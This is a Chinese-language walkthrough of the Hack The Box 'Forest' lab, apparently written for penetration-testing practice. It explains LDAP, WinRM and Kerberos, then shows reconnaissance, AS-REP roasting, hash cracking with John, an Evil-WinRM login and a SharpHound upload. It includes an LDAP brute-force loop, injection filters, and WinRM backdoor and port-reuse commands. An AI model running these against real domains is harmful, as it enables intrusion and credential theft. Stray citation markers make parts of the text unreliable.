


# 从Forest学习Windows下的渗透

## 前置知识

### 一,关于LDAP服务

#### 基础介绍

LDAP（Lightweight Directory Access Protocol，轻量级目录访问协议）是一种用于访问和维护分布式目录信息服务的协议。它允许用户和应用程序通过一个统一的接口访问和管理目录信息。LDAP服务的主要特点和功能包括：

1. **目录结构**：LDAP使用树状结构来组织目录信息，类似于文件系统中的文件和文件夹。
2. **标准化协议**：LDAP基于X.500标准，定义了一套标准的协议和数据格式，使得不同系统和应用程序能够互相兼容。
3. **访问控制**：LDAP支持细粒度的访问控制，允许管理员根据用户的身份和权限来控制对目录信息的访问。
4. **搜索功能**：LDAP提供了强大的搜索功能，用户可以根据不同的属性和条件来查询目录中的条目。
5. **分布式管理**：LDAP支持分布式目录服务，允许目录信息分布在多个服务器上，提高了系统的可扩展性和可靠性。
6. **安全性**：LDAP支持多种安全机制，如SSL/TLS加密传输和SASL（Simple Authentication and Security Layer）认证机制，确保数据传输的安全性。
7. **应用广泛**：LDAP被广泛应用于企业、教育机构和政府组织，用于管理用户账户、电子邮件地址、电话号码等信息。
8. **扩展性**：LDAP允许通过定义新的属性和对象类来扩展目录结构，满足不同应用的需求。

LDAP服务通常用于实现用户身份验证、资源访问控制和目录信息服务等功能。

#### 利用方式

在Windows渗透测试中，LDAP服务的利用方式主要包括以下几种：

1. **LDAP注入攻击**：

   - LDAP注入攻击类似于SQL注入，攻击者通过控制用于目录搜索服务的过滤器来实现攻击。攻击者可以利用LDAP注入技术直接访问LDAP目录树下的数据库及重要的公司信息。常见的注入技术包括AND注入和OR注入。AND注入通过构造一个始终为真的条件来绕过身份验证，例如：`(&(cn=[INPUT1])(&))`。OR注入则通过构造一个逻辑或条件来绕过身份验证，例如：`(|(cn=[INPUT1])(cn=*))`。这些注入技术可以用于绕过访问控制、泄露信息等。

2. **LDAP暴力破解**：

   - 通过LDAP协议暴力破解域用户的口令是一种常见的利用方式。攻击者可以通过工具如

     `ldapsearch`或`PowerShell`脚本进行尝试。例如，使用`
     ldapsearch
     `进行暴力破解的命令如下：

     ```powershell
     for i in $(cat test.txt); do echo -e "\n$i"; ldapsearch -x -H ldap://192.168.1.1:389 -D "CN=$i,CN=Users,DC=test,DC=com" -w DomainUser123! -b "DC=test,DC=com" | grep "# numEntrie"; done
     ```
     
     这种方法通过尝试不同的用户名和密码组合来获取有效的登录凭证。
   
3. **信息收集**：

   - LDAP服务可以用于收集域内的信息，如用户列表、计算机名、域内组等。使用`ldapsearch`工具可以获取这些信息。例如：
     
     ```powershell
     ldapsearch.exe -x -H ldap://192.168.17.133:389 -D "CN=test1,CN=Users,DC=hacker,DC=test" -w Asdfqwer.. -b "DC=hacker,DC=test" "(&(objectClass=user)(objectCategory=person))" | grep ^cn
     ```
     
     这可以用于查询用户信息，类似的命令也可以用于查询计算机名和域内组。
   
4. **利用LDAP进行身份验证绕过**：

   - 在某些情况下，LDAP服务器可能允许NULL绑定，即允许空的用户名和密码进行连接。攻击者可以利用这一点进行身份验证绕过。例如，在登录表单中，如果后端使用LDAP进行身份验证，攻击者可以尝试使用空值进行登录。

5. **利用LDAP进行权限提升**：

   - LDAP服务在某些配置中可能存在权限配置不当的问题，攻击者可以利用这一点进行权限提升。例如，通过修改LDAP目录中的属性值，攻击者可能能够获取更高的访问权限或执行未授权的操作。

6. **利用全局编录服务器（GC）进行搜索**：

   - 在需要在整个林中进行搜索时，可以连接域控的3268/3269端口（GC端口）来进行全局搜索。全局编录服务器中保存了林中所有域的部分属性，允许用户通过全局编录信息搜索林中所有域中对象的信息。

这些利用方式展示了LDAP服务在渗透测试中的多样性和复杂性，攻击者需要深入了解LDAP的工作原理和配置细节才能有效地利用这些技术。

### 二,关于WSMan服务

#### 基础介绍

WSMan（Web Services for Management）是一种基于Web服务的标准，用于系统管理任务。它允许管理应用程序通过网络远程管理操作，如查询系统信息、执行命令、配置系统设置等。WSMan服务的主要特点和功能包括：

1. **跨平台支持**：WSMan是一种跨平台的协议，可以在不同的操作系统和设备上运行，包括Windows、Linux和UNIX系统。
2. **基于SOAP**：WSMan使用SOAP（Simple Object Access Protocol）作为其通信协议，这意味着它可以通过HTTP或HTTPS传输数据，利用现有的Web基础设施。
3. **安全性**：WSMan支持多种安全机制，包括SSL/TLS加密传输和Kerberos认证，确保数据传输的安全性和可靠性。
4. **灵活性**：WSMan允许管理员通过脚本或编程接口（API）进行系统管理，提供了高度的灵活性和自动化能力。
5. **插件架构**：WSMan采用插件架构，允许开发者创建和管理各种管理任务的插件，扩展其功能。
6. **资源定位**：WSMan使用统一资源标识符（URI）来定位和管理资源，这使得资源的发现和管理更加直观和一致。
7. **命令支持**：WSMan支持执行各种系统命令和脚本，如PowerShell脚本、Shell脚本等，使得远程管理更加强大。
8. **事件管理**：WSMan可以用于事件管理，允许管理员订阅和接收系统事件，进行实时监控和响应。

在Windows系统中，WSMan服务是Windows Remote Management（WinRM）的一部分，提供了一种机制来启用远程管理功能。通过WSMan，管理员可以：

- **远程执行PowerShell命令**：使用PowerShell的Invoke-Command cmdlet，管理员可以在远程系统上执行脚本和命令。
- **管理系统设置**：通过WSMan，可以远程修改系统设置，如注册表项、服务配置等。
- **监控系统状态**：WSMan可以用于监控系统状态，如CPU使用率、内存使用情况、磁盘空间等。

WSMan服务在系统管理和自动化任务中发挥着重要作用，是现代IT基础设施管理的关键组件之一。

#### 利用方式

在Windows渗透测试中，WSMan（Web Services for Management）服务可以被利用来进行远程管理和横向移动。以下是一些常见的利用方式：

1. **远程命令执行**：

   - 使用WinRM服务，攻击者可以远程执行命令。WinRM服务默认情况下支持Kerberos、NTLM身份验证以及基本身份验证，初始身份验证后，WinRM会话将使用AES加密保护21。

   - 可以使用`winrs`命令在远程主机上执行命令。例如：

     ```bash
     winrs -r:192.168.52.143 -u:账号名 -p:密码
     ```

2. **横向移动**：

   - WinRM服务可以用于内网渗透中的横向移动。由于WinRM服务默认情况下会在防火墙中放行5985端口，攻击者可以利用这一点在内网中进行横向移动，且这种远程连接不容易被察觉到2126。

3. **服务配置和端口**：

   - WinRM服务默认使用5985端口（HTTP）和5986端口（HTTPS）进行通信。可以通过命令如`winrm quickconfig`进行快速配置，启动WinRM服务并设置服务启动类型为自动，同时为WS-Management通信启用防火墙例外2126。

4. **信任主机配置**：

   - 通过设置TrustedHosts，可以允许特定IP或所有IP远程连接WinRM。例如：

     ```bash
     winrm set winrm/config/Client @{TrustedHosts="*"}
     ```

     这将允许所有IP远程连接WinRM。

5. **使用Evil-WinRM**：

   - Evil-WinRM是一个用于渗透测试的工具，它提供了一个易于使用的WinRM shell。它允许上传和下载文件、列出远程机器服务、加载PowerShell脚本等功能23。

   - 使用Evil-WinRM连接到远程主机的命令示例：

     ```bash
     evil-winrm -i 10.129.53.241 -u Administrator -p badminton
     ```

6. **利用WinRM进行后门植入**：

   - WinRM服务可以被配置为允许非加密传输，这可以用于植入后门。例如：

     ```bash
     winrm set winrm/config/service @{AllowUnencrypted="true"}
     ```

7. **端口复用**：

   - 端口复用是一种后门技术，可以劫持Web服务器相关进程/服务的内存空间、系统API甚至网络驱动，实现端口复用。这种技术可以用于WinRM服务的利用25。

通过这些方法，攻击者可以利用WinRM服务在Windows系统中进行远程管理和横向移动，获取更高的权限和访问更多的资源。

### 三,关于WinRM

#### 基础介绍

WinRM（Windows Remote Management）是Windows操作系统提供的一项远程管理服务。它允许管理员在系统上远程执行管理任务，如查询系统信息、执行命令、配置系统设置等。WinRM服务的主要特点和功能包括：

1. **基于WS-Management协议**：WinRM是Web Services for Management（WS-Management）协议的Microsoft实现。WS-Management是一种基于SOAP的协议，允许不同供应商的硬件和操作系统进行互操作。
2. **跨平台支持**：虽然WinRM主要用于Windows系统，但它支持与其他平台的互操作，如Linux和UNIX系统。
3. **安全性**：WinRM默认情况下支持Kerberos和NTLM身份验证以及基本身份验证。初始身份验证后，WinRM会话将使用AES加密保护，确保数据传输的安全性。
4. **端口使用**：WinRM服务通常使用以下端口：
   - **HTTP**：5985端口
   - **HTTPS**：5986端口
5. **远程命令执行**：WinRM允许远程执行PowerShell命令和其他脚本。管理员可以使用命令行工具如`winrs`或PowerShell的`Invoke-Command`来执行远程命令。
6. **服务配置**：WinRM服务可以通过命令行工具进行配置，例如使用`winrm quickconfig`命令快速配置WinRM服务，启动服务并设置防火墙规则。
7. **信任主机**：WinRM允许设置TrustedHosts，指定允许连接到WinRM服务的远程主机的IP地址或名称。
8. **事件管理**：WinRM可以用于事件管理，允许管理员订阅和接收系统事件，进行实时监控和响应。
9. **自动化任务**：WinRM支持自动化任务，可以通过脚本或编程接口进行系统管理，提供了高度的灵活性和自动化能力。

WinRM服务在系统管理和自动化任务中发挥着重要作用，是现代IT基础设施管理的关键组件之一。通过WinRM，管理员可以更有效地管理和维护他们的系统，提高工作效率和系统的可靠性。

#### 利用方式

WinRM（Windows Remote Management）服务在Windows渗透测试中可以被利用来进行远程管理和横向移动。以下是一些常见的利用方式：

1. **远程命令执行**：

   - 使用WinRM服务，攻击者可以远程执行命令。WinRM服务默认情况下支持Kerberos、NTLM身份验证以及基本身份验证，初始身份验证后，WinRM会话将使用AES加密保护。可以使`winrs`命令在远程主机上执行命令。例如：

     ```bash
     bashwinrs -r:http://192.168.93.30:5985 -u:administrator -p:Whoami2021 whoami
     winrs -r:http://192.168.93.30:5985 -u:administrator -p:Whoami2021 ipconfig
     ```

     如果遇到身份验证问题，可以在客户端设置TrustedHosts来解决：

     ~~~bash
     bashwinrm set winrm/config/Client @{TrustedHosts="*"}
     ```[^34^]
     ~~~

2. **横向移动**：

   - WinRM服务可以用于内网渗透中的横向移动。由于WinRM服务默认情况下会在防火墙中放行5985端口，攻击者可以利用这一点在内网中进行横向移动，且这种远程连接不容易被察觉到，也不会占用远程连接数。32

3. **服务配置和端口**：

   - WinRM服务默认使用5985端口（HTTP）和5986端口（HTTPS）进行通信。可以通过命令如`winrm quickconfig`进行快速配置，启动WinRM服务并设置服务启动类型为自动，同时为WS-Management通信启用防火墙例外。32

4. **信任主机配置**：

   - 通过设置TrustedHosts，可以允许特定IP或所有IP远程连接WinRM。例如：

     ```bash
     winrm set winrm/config/Client @{TrustedHosts="*"}
     ```

     这将允许所有IP远程连接WinRM。

5. **端口复用后门**：

   - 将WinRM监听端口由5985改为80或者443，即使端口被Web服务占用也不影响，并且不影响Web服务。利用如下：

     1. 配置目标WinRM服务，更改监听端口开启复用：

        ```bash
        bashwinrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
        winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}
        ```

     2. 链接目标：

        ```bash
        winrs -r:192.168.86.114 -u:192.168.86.114\administrator -p:123456!
        ```

     该方法适用于有Web服务的机器，不会开启新的端口，配合添加隐藏管理员用户，隐蔽性极高。

6. **开启远程主机3389**：

   - 如果目标开启了WinRM，可以利用PeekABoo工具使目标开启3389。31

7. **利用WinRM进行后门植入**：

   - WinRM服务可以被配置为允许非加密传输，这可以用于植入后门。例如：

     ```bash
     winrm set winrm/config/service @{AllowUnencrypted="true"}
     ```

通过这些方法，攻击者可以利用WinRM服务在Windows系统中进行远程管理和横向移动，获取更高的权限和访问更多的资源。

### 四,关于Kerberos协议

Kerberos协议是一种计算机网络认证协议，用于在不安全的网络环境中提供强大的身份验证服务。它通过使用密钥加密技术来认证用户和服务，并确保数据的保密性和完整性。以下是Kerberos协议的详细介绍：

#### 1. 基本组件

- KDC（Key Distribution Center）

  ：密钥分发中心，负责生成和分发密钥。KDC通常由两个主要组件组成：

  - **AS（Authentication Server）**：认证服务器，负责用户的身份验证。
  - **TGS（Ticket Granting Server）**：票据授权服务器，负责发放票据。

- **客户端**：需要访问网络服务的用户或应用程序。

- **服务端**：提供服务的应用程序或系统。

#### 2. 认证过程

Kerberos认证过程主要分为以下几个步骤：

##### a. 用户登录（AS_REQ & AS_REP）

1. 用户向AS发送一个请求（AS_REQ），包含用户的身份信息。
2. AS验证用户的身份，如果验证成功，AS生成一个TGT（Ticket Granting Ticket）和一个加密的Login Session Key，并将它们发送回用户（AS_REP）。

##### b. 请求服务票据（TGS_REQ & TGS_REP）

1. 用户向TGS发送一个请求（TGS_REQ），包含TGT和用户希望访问的服务的信息。
2. TGS验证TGT，如果验证成功，TGS生成一个服务票据（Service Ticket）和一个加密的服务Session Key，并将它们发送回用户（TGS_REP）。

##### c. 访问服务（AP_REQ & AP_REP）

1. 用户向服务端发送一个请求（AP_REQ），包含服务票据和服务Session Key。
2. 服务端验证服务票据，如果验证成功，服务端使用服务Session Key与用户进行通信，提供服务（AP_REP）。

#### 3. 安全特性

- **加密通信**：所有通信都使用密钥加密，确保数据的保密性。
- **身份验证**：用户和服务的身份通过密钥验证，确保通信双方的真实性。
- **重放攻击防护**：每次通信都使用一次性的Session Key，防止重放攻击。
- **完整性保护**：通过加密和消息认证码（MAC）确保数据的完整性。

#### 4. 预身份验证

在某些情况下，Kerberos允许用户在发送AS_REQ之前进行预身份验证，以防止密码的离线破解。预身份验证是可选的，可以通过用户账户的策略设置来启用。

#### 5. 票据的生命周期

- **TGT（Ticket Granting Ticket）**：通常有效期较短（例如8小时），用于获取服务票据。
- **服务票据（Service Ticket）**：用于访问特定服务，有效期更短（例如10分钟），一旦使用即失效。

#### 6. 攻击和防御

- **AS-REP Roasting**：攻击者利用不需要预身份验证的用户账户请求AS-REP响应，从中提取加密的Login Session Key进行离线破解。
- **Kerberoasting**：攻击者利用服务票据的加密特性，请求服务票据并尝试离线破解，获取服务账户的密码。

#### 7. 工具和实现

- **Rubeus**：一个Windows工具，用于执行Kerberos相关的攻击，如AS-REP Roasting和Kerberoasting。
- **Impacket**：一个Python库，提供了Kerberos协议的实现，可以用于安全测试和研究。

通过这些机制，Kerberos协议能够在不安全的网络环境中提供安全的身份验证和通信服务。

### 五,关于AS-REP Roasting攻击[^4]

AS-REP Roasting攻击是一种针对用户账号进行离线爆破的攻击方式，利用Kerberos认证协议中的一个特性。以下是AS-REP Roasting攻击的详细解释和步骤：

1. **攻击前提条件**：

   - 域用户设置了“不需要Kerberos预身份验证”选项。这个选项默认是未勾选的，但一旦勾选，就意味着用户在进行Kerberos身份验证时不需要预身份验证。
   - 需要一台可以与KDC（Key Distribution Center，密钥分发中心）进行通信的主机或用户。383941

2. **攻击步骤**：

   1. **获取AS-REP响应包**： 攻击者使用指定用户去请求票据，此时域控不会进行任何验证，就会将TGT（Ticket Granting Ticket）票据和该用户Hash加密的Login Session Key返回。这个过程主要利用了Kerberos认证的第一阶段（AS_REQ & AS_REP）。
   2. **解密Login Session Key**： 攻击者对获取到的用户Hash加密的Login Session Key进行解密。由于这个Session Key是通过用户Hash加密的，攻击者可以对其进行离线破解。如果破解成功，就能得到该指定用户的密码明文。

3. **攻击利用方式**：

   - 域内机器利用

     ： 使用工具如Rubeus或PowerShell脚本来获取AS-REP响应中的Hash。例如，使用Rubeus的命令：

     ```bash
     Rubeus.exe asreproast /format:john /outfile:hash.txt
     ```

     或者使用PowerShell脚本ASREPRoast.ps1：

     ```powershell
     powershellImport-Module .\ASREPRoast.ps1
     Invoke-ASREPRoast | select -ExpandProperty Hash
     ```

   - 非域内机器利用

     ： 通过工具如adfind或bloodhound查询不需要Kerberos预身份验证的账户，然后使用Impacket下的GetNPUsers.py脚本获取指定用户的Hash加密的Login Session Key。例如，使用adfind查询：

     ```bash
     Adfind.exe -h 10.211.55.100 -u test\lisi -up Pass123 -f "useraccountcontrol:1.2.840.113556.1.4.803:=4194304" dn
     ```

     或者使用bloodhound分析：

     ```bash
     bashbloodhound.py -u lisi  -d test.com -ns 10.211.55.100 -c DcOnly
     ```

4. **使用John爆破AS-REP Roasting Hash**： 将获取到的Hash保存到txt文件中，使用John the Ripper进行爆破：

   ```bash
   bashjohn --wordlist=/xxx/字典.txt hash.txt
   ```

5. **注意事项**：

   - 攻击者需要确保目标用户账户确实设置了“不需要Kerberos预身份验证”选项。
   - 攻击者需要能够与KDC进行通信，通常这意味着需要在域内或能够访问域内网络。
   - `AS-REP Roasting`和`kerberoasting`攻击的区别
     *AS-REP Roasting*:
     	AS-REP Roasting 可提取账户哈希来进行离线暴力破解，前提是需要账户开启不使用Kerberos预认证或将`uf_dont_require_preauth`设置为`true`。
     *kerberoasting*:
     	`kerberoasting`通常需要域上的凭据才能进行身份验证，在域中提取服务帐户凭据哈希来进行离线破解。

通过这些步骤，攻击者可以利用AS-REP Roasting攻击获取域内用户的密码，从而进一步进行内网渗透。

### 六,关于Amsi

amsi工作原理：

**服务和应用程序可以通过AMSI来与系统中已安装的反病毒软件进行通信，也就是Windows Defender，AMSI采用了hook方法进行检测，详细的工作原理如下：**

- **创建PowerShell进程时，AMSI.DLL将从磁盘加载到其内存地址空间。**
- **在AMSI.DLL中，有一个名为AmsiScanBuffer()的函数，是用来扫描脚本内容的函数。**
- **在PowerShell中执行命令时，任何内容都将首先发送到AmsiScanBuffer()，然后再执行。**
- **随后，AmsiScanBuffer()将Windows Defender检查，以确定是否创建了任何签名。**
- **如果该内容被认为是恶意的，它将被阻止运行。**

简单说一下amsi就是当用户执行脚本或启动 PowerShell 时，AMSI.dll 被动态加载进入内存空间。在执行之前，防病毒软件使用以下两个 API 来扫描缓冲区和字符串以查找恶意软件的迹象。
  AmsiScanBuffer()
  AmsiScanString()




## 信息搜集

### Nmap扫描

```bash
Nmap scan report for 10.10.10.161
Host is up (0.22s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
88/tcp   open     kerberos-sec Microsoft Windows Kerberos (server time: 2024-07-18 04:44:34Z)
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open     ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open     0�.�␦V       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open     kpasswd5?
481/tcp  filtered dvs
593/tcp  open     ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-07-17T21:44:46-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-07-18T04:44:43
|_  start_date: 2024-07-17T13:59:07
|_clock-skew: mean: 2h18m55s, deviation: 4h02m31s, median: -1m05s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.17 seconds
```

> `nmap -A -T5 10.10.10.161`

暴露出域名`domain_name`为`htb.local`

暴露出主机名`fqdn`为`FOREST.htb.local`

#### ldap踩点

```shell
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts
#

#
dn:
namingContexts: DC=htb,DC=local
namingContexts: CN=Configuration,DC=htb,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=htb,DC=local
namingContexts: DC=DomainDnsZones,DC=htb,DC=local
namingContexts: DC=ForestDnsZones,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

> `ldapsearch -H ldap://10.10.10.161 -x -s base namingContexts`[^1]

```shell
sAMAccountName: Guest
sAMAccountName: DefaultAccount
sAMAccountName: FOREST$
sAMAccountName: EXCH01$
sAMAccountName: $331000-VK4ADACQNUCA
sAMAccountName: SM_2c8eef0a09b545acb
sAMAccountName: SM_ca8c2ed5bdab4dc9b
sAMAccountName: SM_75a538d3025e4db9a
sAMAccountName: SM_681f53d4942840e18
sAMAccountName: SM_1b41c9286325456bb
sAMAccountName: SM_9b69f1b9d2cc45549
sAMAccountName: SM_7c96b981967141ebb
sAMAccountName: SM_c75ee099d0a64c91b
sAMAccountName: SM_1ffab36a2f5f479cb
sAMAccountName: HealthMailboxc3d7722
sAMAccountName: HealthMailboxfc9daad
sAMAccountName: HealthMailboxc0a90c9
sAMAccountName: HealthMailbox670628e
sAMAccountName: HealthMailbox968e74d
sAMAccountName: HealthMailbox6ded678
sAMAccountName: HealthMailbox83d6781
sAMAccountName: HealthMailboxfd87238
sAMAccountName: HealthMailboxb01ac64
sAMAccountName: HealthMailbox7108a4e
sAMAccountName: HealthMailbox0659cc1
sAMAccountName: sebastien
sAMAccountName: lucinda
sAMAccountName: andy
sAMAccountName: mark
sAMAccountName: santi
```

> `ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local "(objectClass=person)"|grep "sAMAccountName:"`[^2]

同时用`enum4linux`交叉验证一下:

```shell
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

> `enum4linux 10.10.10.161`

## 攻击利用

考虑使用`AS-REP ROASTING`[^3]

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-07-18 13:48:13.563719  2024-07-18 13:49:06.626340  0x410200


$krb5asrep$23$svc-alfresco@HTB.LOCAL:42c3c145fa0690d8e9c7c24ebd156254$5bfab1a307380374575b88151a6ba0a480fdf5ca8b626df4665f4ae6e7029fbc0ea15f936574338a45a25c2e373e907d36bcab3541726f5b96189160b900607ed3973500a65db1b3ea5da60c10351c061a3cc63383784608b46ed6076bd3ac9d7cc56a9a0774f11547479e07a98d87db82ad9ec98f758d557d74b0ff69c988e4aa53cc99f8c449b124191f7a69fc998105f6d02896a80f807e002508e77ed73061abbfbd85481a7b848c1dd81f7c334b6845969eff6bb0aa1eadf5c88007395cd0ac1c8dd379e7e0b82c5807b2b1ffbcacf70a6350c5ffa9e580312f0af3fbceaa14d7179530
```

> `GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request`

爆破`hash`

```shell
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 2 OpenMP threads per process (8 total across 4 processes)
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
```

> `john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt`

得到账密`svc-alfresco/s3rvice`

```shell
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>whoami
htb\svc-alfresco
```

> `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
NDRlOTU3NWRlZGY3NWVhNWIxMTc0YzRlYTkxZTk3OTQ=
```

***get user flag!***

利用`python_http.server`传一个`SharpHound.exe`[^5]

```powershell
2024-07-17T23:49:03.8056462-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2024-07-17T23:49:03.8993962-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices
2024-07-17T23:49:03.9150186-07:00|INFORMATION|Initializing SharpHound at 11:49 PM on 7/17/2024
2024-07-17T23:49:04.0243957-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2024-07-17T23:49:04.1338112-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices
2024-07-17T23:49:04.4150230-07:00|INFORMATION|Beginning LDAP search for htb.local
2024-07-17T23:49:04.4150230-07:00|INFORMATION|Testing ldap connection to htb.local
2024-07-17T23:49:04.4775237-07:00|INFORMATION|Beginning LDAP search for htb.local Configuration NC
2024-07-17T23:49:34.9775839-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2024-07-17T23:49:49.5401184-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-07-17T23:49:49.5401184-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-07-17T23:49:49.7588655-07:00|WARNING|[CommonLib LDAPUtils]Exception in LDAP loop for (objectclass=*) and HTB.LOCAL
System.DirectoryServices.Protocols.DirectoryOperationException: The object does not exist.
   at System.DirectoryServices.Protocols.LdapConnection.ConstructResponse(Int32 messageId, LdapOperation operation, ResultAll resultType, TimeSpan requestTimeOut, Boolean exceptionOnTimeOut)
   at System.DirectoryServices.Protocols.LdapConnection.SendRequest(DirectoryRequest request, TimeSpan requestTimeout)
   at SharpHoundCommonLib.LDAPUtils.<QueryLDAP>d__40.MoveNext()
2024-07-17T23:49:49.7588655-07:00|WARNING|[CommonLib LDAPUtils]Exception in LDAP loop for (objectclass=*) and HTB.LOCAL
